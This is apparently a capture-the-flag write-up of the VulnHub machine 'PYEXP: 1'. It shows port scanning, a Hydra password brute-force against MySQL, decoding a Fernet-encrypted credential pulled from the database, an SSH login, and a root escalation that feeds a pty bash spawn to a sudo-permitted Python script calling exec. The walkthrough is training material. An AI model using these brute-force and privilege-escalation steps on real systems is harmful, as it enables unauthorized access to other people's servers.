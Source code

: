 ```yaml
---
title: PYEXP 1
author: am-a-circle
date: 2021-04-18 12:00:00 +0800
categories:  [vulnhhub]
tags: [gpg,nfs]
math: false
mermaid: false
---
```




## Overview

"PYEXP: 1" is an interesting box as it teaches the concept of  brute-forcing,database enumeration and exploiting dangerous python function.

|Box Difficulty| Link|
|--|--|
| Medium| [Vulnhub Link](https://www.vulnhub.com/entry/pyexp-1,534/) |

## Recon

As usual, the standard masscan follow by nmap.
```bash
# masscan -p1-65535  192.168.205.118  --rate=1000 -e tun0
Discovered open port 3306/tcp on 192.168.205.118
Discovered open port 1337/tcp on 192.168.205.118                 
```


```bash
└─# nmap -sV -sC -p 1337,3306 -oN /opt/OSCP_PlayG/PyExp/nmap_full.txt 192.168.205.118

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 11:25 EDT                                                                                                           
Nmap scan report for 192.168.205.118
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: d5z)[o=~(GllWRri9}.i
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.69 seconds

```

From the output we can see that there is a SSH server on port 1337 and a MySQL service at port 3306. 
Honestly, there isn't much to work on so the only option I could think of was to brute-force MySQL for password.

## MYSQL - TCP 3306

Brute-forcing root password: 
```bash
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.205.118 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-17 11:45:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.205.118:3306/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 14344228 to do in 1398:05h, 4 active
...
...
[STATUS] 174.00 tries/min, 8178 tries in 00:47h, 14336221 to do in 1373:13h, 4 active
[3306][mysql] host: 192.168.205.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

That took awhile but the result is that we obtain the root password for mysql. Let's enumerate the database for any credentials we can use to access the SSH server!



## Shell as Lucy

Enumerating the database:


```bash
└─# mysql --host 192.168.205.118 -u root -p                                                                                                                                                
Enter password:                                                                                                                                                                                    
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                        
Your MariaDB connection id is 22205                                                                                                                                                                
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10                                                                                                                                                
                                                                                                                                  
MariaDB [(none)]> show databases;                                                                                                                                                                  
+--------------------+                                                                                                                                                                             
| Database           |                                                                                                                                                                             
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.253 sec)

MariaDB [(none)]> use data;

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.270 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.282 sec)



```

After enumerating the database server there isn't much but the above.

As we can see from the above, there is a fernet table with the column name "cred" and "keyy" from the table name fernet.

A quick google about fernet leads me to **"fernet encryption"**
*:Fernet is a symmetric encryption method which makes sure that the message encrypted cannot be manipulated/read without the key.*

When inputting the Token and Key into the site here, [Fernet decryption!](https://asecuritysite.com/encryption/ferdecode)

We get the credentials below:
Decoded: lucy:wJ9`"Lemdv9[FEw-

Great ! Now we have a possible username and password! Let's try to SSH into the server
```bash
└─# ssh lucy@192.168.205.118 -p 1337                                                                                                                                                         
lucy@192.168.205.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
```

With that we are now in the system running as lucy!

## Shell as Root

One of the first things i like to do is run beside running `linpeas.sh` is to run `sudo -l` to see if the current user is able to run any privilege commands which can be abused.
```bash
lucy@pyexp:/tmp$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Interestingly , we can run `/usr/bin/python2 /opt/exp.py` as root. A further look into the file reveals the below
```bash
lucy@pyexp:/tmp$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)

```
From the `exp.py` file above we can see that it takes a user input. But what is dangerous here is that the script uses the vulnerable `exec` function. 


Why is `exec` dangerous ? 
It is because it take strings and turn them into executable code!  A user could build a string so that it runs other Python functions to potentially erase all your data, expose your secret keys, dump your database, or perform other malicious actions. Since we can execute the file as a root user, the command executed will be as root. 


Thus a simple way to become root would be to use the python function to spawn a bash shell!

```bash
lucy@pyexp:/tmp$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import pty; pty.spawn("/bin/bash")
root@pyexp:/tmp# whoami
root
root@pyexp:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root!


